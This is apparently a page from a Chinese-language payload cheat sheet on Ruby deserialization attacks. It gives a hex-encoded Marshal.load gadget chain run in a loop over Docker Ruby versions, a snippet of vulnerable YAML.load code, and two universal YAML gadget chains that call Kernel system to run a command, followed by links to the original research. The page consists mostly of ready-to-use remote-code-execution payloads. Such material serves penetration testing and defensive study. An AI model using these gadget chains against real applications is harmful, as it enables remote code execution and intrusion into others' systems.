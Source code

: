 # Ruby反序列化

## Marshal.load

脚本生成并验证针对Ruby 2.0至2.5版本的反序列化小部件链

```ruby
for i in {0..5}; do docker run -it ruby:2.${i} ruby -e 'Marshal.load(["0408553a1547656d3a3a526571756972656d656e745b066f3a1847656d3a3a446570656e64656e63794c697374073a0b4073706563735b076f3a1e47656d3a3a536f757263653a3a537065636966696346696c65063a0a40737065636f3a1b47656d3a3a5374756253706563696669636174696f6e083a11406c6f616465645f66726f6d49220d7c696420313e2632063a0645543a0a4064617461303b09306f3b08003a1140646576656c6f706d656e7446"].pack("H*")) rescue nil'; done
```

## Yaml.load

易受攻击的代码

```ruby
require "yaml"
YAML.load(File.read("p.yml"))
```

适用于ruby <= 2.7.2的通用小部件：

```ruby
--- !ruby/object:Gem::Requirement
requirements:
  !ruby/object:Gem::DependencyList
  specs:
  - !ruby/object:Gem::Source::SpecificFile
    spec: &1 !ruby/object:Gem::StubSpecification
      loaded_from: "|id 1>&2"
  - !ruby/object:Gem::Source::SpecificFile
      spec:
```

适用于ruby 2.x - 3.x的通用小部件。

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

## 参考资料

- [RUBY 2.X通用RCE反序列化小部件链 - elttam, Luke Jahnke](https://www.elttam.com.au/blog/ruby-deserialization/)
- [通过Ruby YAML.load实现通用RCE - @_staaldraad](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
- [在线访问Ruby 2.x通用RCE反序列化小部件链 - PentesterLab](https://pentesterlab.com/exercises/ruby_ugadget/online)
- [通过Ruby YAML.load实现通用RCE（版本> 2.7）- @_staaldraad](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)

* [通过YAML反序列化实现盲目远程代码执行 - 2021年6月9日](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)